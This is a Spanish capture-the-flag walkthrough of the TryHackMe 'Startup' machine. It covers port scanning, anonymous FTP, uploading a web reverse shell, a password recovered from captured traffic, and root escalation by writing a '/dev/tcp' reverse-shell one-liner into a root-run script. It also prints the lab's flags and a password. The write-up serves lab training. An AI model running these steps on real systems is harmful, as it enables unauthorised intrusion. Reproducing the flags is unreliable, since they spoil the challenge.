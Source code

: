 # Startup

## Escaneo de puertos

Usamos la herramienta de `nmap` para mapear los puertos abiertos disponibles en la máquina víctima:

```bash
sudo nmap -sV -T4 -p- 10.10.32.165
```

Tenemos tres puertos abiertos.

![](images/image.png)

## Acceso por FTP

Entramos mediante FTP de forma anónima:

![](images/image-1.png)

Nos descargamos los ficheros disponibles:

![](images/image-2.png)

La imagen no parece relevante de momento:

![](images/image-3.png)

Aunque hay un posible usuario en el sistema: `Maya`.

![](images/image-4.png)

## Inspeccionando el servidor web

Accedemos al sitio web:

![](images/image-5.png)

Usamos `gobuster` para identificar posibles directorios ocultos:

```bash
gobuster dir -u http://10.10.32.165 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

Encontramos un directorio llamado `/files`:

![](images/image-6.png)

Accedemos al mismo y vemos el mismo contenido que en FTP:

![](images/image-7.png)

## Reverse Shell

Podemos implantar una reverse shell en este directorio abierto:

![](images/image-8.png)

Abrimos el puerto en escucha:

```bash
nc -lvnp 1234
```

![](images/image-9.png)

Subimos el archivo de la reverse shell vía FTP:

![](images/image-10.png)

Volvemos a la web y en `/files` aparece el archivo:

![](images/image-11.png)

Hacemos clic y se ejecuta, obteniendo acceso:

![](images/image-12.png)

Obtenemos shell más estable:

```bash
bash -i
```

![](images/image-13.png)

Inspeccionamos y encontramos `recipe.txt`:

![](images/image-14.png)

El ingrediente es `love`.

## Análisis de tráfico

Vamos a la carpeta `incidents` y vemos un fichero de Wireshark:

![](images/image-15.png)

Lo descargamos copiándolo a la carpeta accesible en la web:

![](images/image-16.png)
![](images/image-17.png)

![](images/image-18.png)

Seleccionamos cualquier paquete TCP y seguimos el flujo:

![](images/image-19.png)

Encontramos contraseña de `lennie`: `c4ntg3t3n0ughsp1c3`.

![](images/image-20.png)

## Acceso por SSH

Usamos credenciales de `lennie` para SSH:

![](images/image-21.png)

Leemos `user.txt`:

![](images/image-22.png)

```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

## Escalada de privilegios

En `/scripts` hay archivos importantes. `planner.sh` es propiedad de root y ejecuta `/etc/print.sh`:

![](images/image-23.png)
![](images/image-24.png)

Subimos `pspy64` a través de FTP para vigilar procesos root:

![](images/image-25.png)

Insertamos reverse shell en `/etc/print.sh`:

```bash
echo "sh -i >& /dev/tcp/10.2.41.173/5555 0>&1" > /etc/print.sh
```

![](images/image-26.png)

Cuando se ejecute el script, obtendremos shell root:

![](images/image-27.png)

Leemos `root.txt`:

```
THM{f963aaa6a430f210222158ae15c3d76d}
```
